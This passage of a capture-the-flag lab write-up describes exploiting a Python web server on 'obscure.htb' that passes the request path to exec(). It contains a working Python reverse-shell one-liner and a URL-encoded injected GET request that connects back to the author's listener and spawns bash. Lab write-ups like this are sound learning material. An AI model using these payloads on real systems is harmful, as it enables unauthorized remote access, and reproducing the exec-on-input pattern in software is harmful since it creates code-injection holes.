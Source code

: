After a couple of hours of trial and error I was able to craft a request in burp that got me a low-priv, shitty shell as `www-data`.

In the function `serveDoc` there is a line where the python function `exec()` is called. 

```python
exec(info.format(path))  # This is how you do string formatting, right?
```

This function is used to execute a python program either as a string or as code itself. This can be leveraged to execute my arbitrary code -- a reverse shell in this case.

To leverage this, I need to send a request which is evaluated by that code -- I will do this in Burp, which will allow me to repeatedly send requests that are just as easy to modify.

The request that gets made to `http://obscure.htb:8080` when I browse to it in a browser looks like this:

```console
GET / HTTP/1.1
Host: obscure.htb:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
DNT: 1
If-Modified-Since: Fri, 14 Feb 2020 02:51:48
```

I can inject my code right after the `GET` HTTP request. I figure since this is written in python I can be confident that python is on this box and should work. The shell I am going to use is from [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and I just need to modify it for my use case:

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

I won't need to invoke `python -c` in my request since it will be executed in python already. I will also need to add my own IP and listening port, as well as URL encode it so that its passed correctly through HTTP. I will also comment out anything after the command with a `#`:

```console
GET /';import%20socket,subprocess,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.75",42069));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")# HTTP/1.1
Host: obscure.htb:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
DNT: 1
```
